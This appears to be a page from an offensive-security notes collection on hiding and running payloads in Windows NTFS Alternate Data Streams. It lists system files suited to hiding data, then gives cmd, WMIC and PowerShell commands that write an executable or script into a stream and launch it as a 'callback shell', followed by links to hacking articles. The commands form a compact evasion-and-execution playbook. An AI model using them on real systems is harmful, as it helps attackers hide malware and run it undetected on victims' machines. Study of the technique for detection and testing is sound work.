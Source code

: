 # Living off the Land

TODO: Add more backlinks that has ADS method.

## 01 - Common Files

TODO: Add more common files that is included to hide files

```
C:\Windows\eula.txt
C:\Windows\WindowsUpdate.log
C:\Windows\System32\eula.txt
C:\Windows\System32\AppLocker\AppCache.dat
C:\Windows\System32\AppLocker\AppCache.dat.LOG1
C:\Windows\System32\AppLocker\AppCache.dat.LOG2
```

## 02 - Command Prompt

### 2.1 - Basics

Hide the file by appending inside an existing file.

```
C:\> type payload.exe > file.txt:payload.exe
```

Execute it

```
C:\> start file.txt:payload.exe
```

### 2.2 - WMIC

Execute Callback Shell via ADS

```
C:\> wmic.exe process create "c:\path\to\file.txt:payload.exe"
```

## 03 - PowerShell

Hide the file by appending inside an existing file.

```
PS C:\> Set-Content file.txt -Stream script.ps1 -Value payload.ps1
```

Execute Callback Shell via ADS

```
PS C:\> Get-Content file.txt -Stream payload.ps1 | iex
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/DotNET/Manual|Initial Access: DotNET Execution]]

- [[HTA|Initial Access: HTA]]

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/File Attachment/Payloads/Desktop/Windows/Installer/MSI/Manual|Initial Access: MSI]]

- [[Scriptlet|Initial Access: Scriptlet]]

- [[Windows Scripting Host|Initial Access: Windows Scripting Host]]

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/WMI|Initial Access: WMI]]

### Source Repostories

- [r00t-3xp10it: ADS](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/ADS.md)

### Hacking Articles

- [Hacking Articles: Defense Evasion Alternate Data Streams](https://www.hackingarticles.in/defense-evasion-alternate-data-streams/)

### Jakoby

- [Jakoby: AlternateDataStream](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/VideoNotes/AlternateDataStream.md)

- [InfoSec Writeups: Alternate Data Streams ADS](https://infosecwriteups.com/alternate-data-streams-ads-54b144a831f1)

- [OddVar Moe: Putting Data in Alternate Data Streams and How to Execute it](https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/)

- [CqureAcademy: Alternate Data Streams](https://cqureacademy.com/blog/alternate-data-streams)

- [ThreatSpike: Alternate Data Streams](https://www.threatspike.com/blogs/alternate-data-streams)

### 0xsp

- [0xsp: handy techniques to bypass environment restrictions](https://0xsp.com/offensive/handy-techniques-to-bypass-environment-restrictions/)